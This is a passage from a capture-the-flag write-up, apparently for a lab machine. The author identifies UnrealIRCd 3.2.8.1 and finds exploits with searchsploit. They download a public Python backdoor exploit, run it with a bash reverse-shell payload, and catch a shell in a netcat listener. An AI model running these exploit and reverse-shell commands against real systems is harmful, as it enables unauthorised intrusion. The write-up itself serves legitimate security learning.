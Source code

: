 The only interesting thing that I found so far was the IRC software version: `Unreal3.2.8.1`. I think I have exploited UnrealIRC in another CTF, as the software and version number seem familiar. Anyway, had a quick look in `searchsploit` looking for exploits.

```none
└─$ searchsploit unrealirc
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
UnrealIRCd 3.2.8.1 - Backdoor Command Execution (Metasploit)                      | linux/remote/16922.rb
UnrealIRCd 3.2.8.1 - Local Configuration Stack Overflow                           | windows/dos/18011.txt
UnrealIRCd 3.2.8.1 - Remote Downloader/Execute                                    | linux/remote/13853.pl
UnrealIRCd 3.x - Remote Denial of Service                                         | windows/dos/27407.pl
---------------------------------------------------------------------------------- ---------------------------------
```

The good news is that there are a variety of exploits available against this software and version. However, there is no Python exploit! I decided to try to find a Python exploit by doing a Google for "UnrealIRCd 3.2.8.1 python exploit github". This seems to work for most common exploits, as a lot of people port exploits to Python for practice or learning, which is useful as it is so easy to read and modify Python exploits. I found the [UnrealIRCd 3.2.8.1 Backdoor](https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor) GitHub repo, which looked pretty well coded and used Python 3. Started by downloading the Python file.

```none
wget https://github.com/Ranger11Danger/UnrealIRCd-3.2.8.1-Backdoor/raw/master/exploit.py
```

And ran the exploit using:

```none
python3 exploit.py 10.10.10.117 6697 -payload bash
```

The exploit would accept different payload arguments for the reverse shell. You can pick from `python`, `bash` and `netcat`. The `python` option for the payload didn't work for me, but the bash one did. If you have a look at the Python source code, you can see that the reverse shell payloads are the usual examples. Anyway, started a netcat listener on my system and ran the exploit.

```none
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.117] 57397
ircd@irked:~/Unreal3.2$ id
id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
```

Success! We get a shell as the `ircd` user.

